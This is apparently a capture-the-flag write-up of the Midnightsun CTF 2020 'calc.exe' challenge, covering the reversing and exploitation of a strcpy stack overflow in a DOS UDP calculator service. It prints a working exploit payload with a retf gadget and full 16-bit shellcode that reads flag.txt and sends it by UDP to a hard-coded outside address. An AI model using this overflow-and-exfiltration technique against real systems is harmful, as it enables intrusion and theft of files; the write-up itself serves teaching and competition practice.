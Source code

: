 ```yaml
---
layout: post
category: Pwn
title: Midnightsun CTF 2020 - calc.exe
tags: 
    - kowu
---
```


# Challenge Description / Setup

```
During some renovations, we found an ancient computer with this VM hidden behind a wall.
We believe it is the earliest example of networked computation. (QEMU with PCNET network)
```
[Download](/assets/bin/midnight_floppy.img)

So we got a DOS floppy image. The Image contained the following files:
```
   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
1991-11-11 05:00:02 .RHS.        33430        33792  IO.SYS
1991-11-11 05:00:02 .RHS.        37394        37888  MSDOS.SYS
1991-11-11 05:00:02 ....A        47845        48128  COMMAND.COM
2020-10-01 20:13:50 ....A        32769        33280  DHCP.EXE
2020-10-01 20:13:50 ....A         6751         7168  PCNTPK.COM
2020-10-01 20:13:50 ....A        55816        56320  calc.exe
2020-10-01 20:13:50 ....A           37          512  flag.txt
2020-10-01 20:13:50 ....A           77          512  AUTOEXEC.BAT
2020-10-03 10:58:54 ....A          247          512  MTCP.CFG
1999-11-17 17:32:02 ....A            0            0  BOOT500
------------------- ----- ------------ ------------  ------------------------
2020-10-03 10:58:54             214366       218112  10 files

```

Autoexec would start DHCP to run a DHCP server, then the challenge "calc.exe" is executed. It turns out that [mTCP](http://www.brutman.com/mTCP/) was used as a TCP stack. Calc.exe would then listen on UDP port 8888 for simple equations of the format `number operand number` and echo the result back (via network).


First I spent some time getting QEMU and NAT working. I have no clue of networking and just followed Instructions at [https://wiki.qemu.org/Documentation/Networking/NAT](https://wiki.qemu.org/Documentation/Networking/NAT). Finally I ended up using the following combination:

`sudo qemu-system-i386 -drive file=floppy.img,if=floppy,format=raw -m 64 -boot a -netdev tap,id=mynet0 -device pcnet,netdev=mynet0 --nographic`

It probably would be way easier (and does not require root) to just forward UDP port 8888, but I did the setup before reversing, and before looking into the provided openvpn conf, where the ports would have been documented.

Server:
```
...
DHCP request sent, attempt 1: Offer received, Acknowledged

Good news everyone!

IPADDR = 192.168.53.76
NETMASK = 255.255.255.0
GATEWAY = 192.168.53.1
NAMESERVER = 192.168.53.1
LEASE_TIME = 3600 seconds

Settings written to 'MTCP.CFG'
Sending [1337 + 9774 = 11111]


```

Client:
```
user@KARCH ~ % nc -u 192.168.53.76 8888
1337+9774
1337 + 9774 = 11111
```

# Reversing / Bug Hunting

I reversed the binary using Ghidra. By comparing characteristic strings in the binary and correlating them with exmaple source from the mTCP project, I could locate the mainloop at `1000:09c1`. From there it was easy to locate the UDP packet handler at `1000:0afa`.

decompiled handler:
```c
void __fastcall_member udp_handler(byte *packet,char *header)

{
  void *unaff_DI;
  void *unaff_SS;
  
  parsepkt((char *)(packet + 0x2a));
  dbg_print_sending((char *)0x2b5,(void *)0x1aa8,(void *)0xbfc);
  sendUDP((uint)(packet + 0x1a),(int)header,0x200,0xbd2,unaff_SS,1);
  Buffer_free(unaff_DI);
  return;
}
```

the bug is an obvious stackoverflow via strcpy in the parsepkt function, a long input would result in a hang:
```c
void __fastcall_member parsepkt(char *input)

{
  char cVar1;
  char *buffer_ptr;
  undefined2 unaff_SS;
  char buffer [20];
  
  strcpy(buffer,input);
  buffer_ptr = buffer;
  while( true ) {
    cVar1 = *buffer_ptr;
    if (cVar1 == '\0') {
      return;
    }
    if ((((cVar1 == '+') || (cVar1 == '-')) || (cVar1 == '*')) || (cVar1 == '/')) break;
    buffer_ptr = buffer_ptr + 1;
  }
  *buffer_ptr = '\0';
  buffer_ptr = buffer_ptr + 1;
  atoi(buffer);
  atoi(buffer_ptr);
  FUN_1000_3a65(0xbfc);
  return;
}
```
Now the presented decompiled source looks quite nice, but for this I had to teach Ghidra some new 16bit calling conventions (like microsoft 16bit fastcall it seems). This worked surprisingly easy, some existing specifications can be modified in `Ghidra/Processors/x86/data/languages/x86-16.cspec`. I think I did't quite get them right, but sufficiently well to understand what's going on. It should be `AX, BX, CX, DX, ES, stack...`, return values in `AX, DX`.

# Debugging

To debug, I attached radare (`r2 -a x86 -b 16 -D gdb gdb://localhost:1234`) / gdb (`gdb -ex "target remote localhost:1234" -ex "set architecture i8086"`) to qemus gdb server (add `-S -s` options), and placed a breakpoint at `b *0x1459b`. I stumbled upon some strange behaviour. The breakpoint was hit, and stepping "worked", but somehow the IP was completely off. It turns out this is because both debuggers don't take care of code segments. I stumbled upon some GDB script at [https://ternet.fr/gdb_real_mode.html], which allowed at least for some more comfortable single stepping in gdb. In r2, i just manually calculated addresses e.g. by `s cs * 16 + eip`.


# Shellcode Execution

Next I found some simple retf ropgadget which allowed me to set ip and cs, so that cs:ip points to the stack (under my control). Shellcode execution :)
```python
# bp di si cx bx ip (0x0a40 = retf) | ip cs | 4X fill | shellcode
r.send(b'+' * 24 + struct.pack(
    '<12H',
    0x1111, 0x2222, 0x3333, 0x4444, 0x5555, 0x0a40,
    0x2710, 0x202e, 0x5858, 0x5858, 0x5858, 0x5858
) + shellcode)
```

# Shellcode

Now it is "easy". I used the 0x21 DOS intterrupt [https://www.beck-ipc.com/api_files/scxxx/dosemu.htm](https://www.beck-ipc.com/api_files/scxxx/dosemu.htm) to open the flag file, and read the flag into memory. Next I prepared the arguments to call the already existing `int8_t Udp::sendUdp( IpAddr_t host, uint16_t srcPort, uint16_t dstPort, uint16_t payloadLen, uint8_t *data, uint8_t preAlloc)` function, to echo back the flag via udp. I filled out all the important arguments with static data (static ip address, 1337 src / dst port), and let wireshark listen for the resulting UDP packet. Less work for me :)

```asm
org 0
bits 16

; open flag.txt
xor ax, ax;
push ax;
push 0x7478;
push 0x742e;
push 0x6761;
push 0x6c66;
mov dx, sp;
xor ax, ax;
mov ah, 0x3d;
int 0x21;

; read file
mov cx, 0x111;
mov bx, ax;
mov dx, 0xbfc;
mov ah, 0x3f;
int 0x21;

; prepare 10.8.10.2
mov al, 10; ; dst ip
mov ah, 2;
push ax;
mov al, 10;
mov ah, 8;
push ax;
mov bp, sp;

xor ax, ax;  ; use buffer
inc ax;
push ax;

push ds; ; buffer
push 0xbd2;

push 0x201; ; length

; jump
push 0x13ab; ;cs
push 0x0b3b; ;ip

mov ax, bp;   ; ptr to 10.8.10.2
mov dx, ds;
mov cx, 1337; ; dst port
mov bx, 1337; ; src port

retf
```

![image](http://blog.redrocket.club/assets/img/calc_wireshark.png)
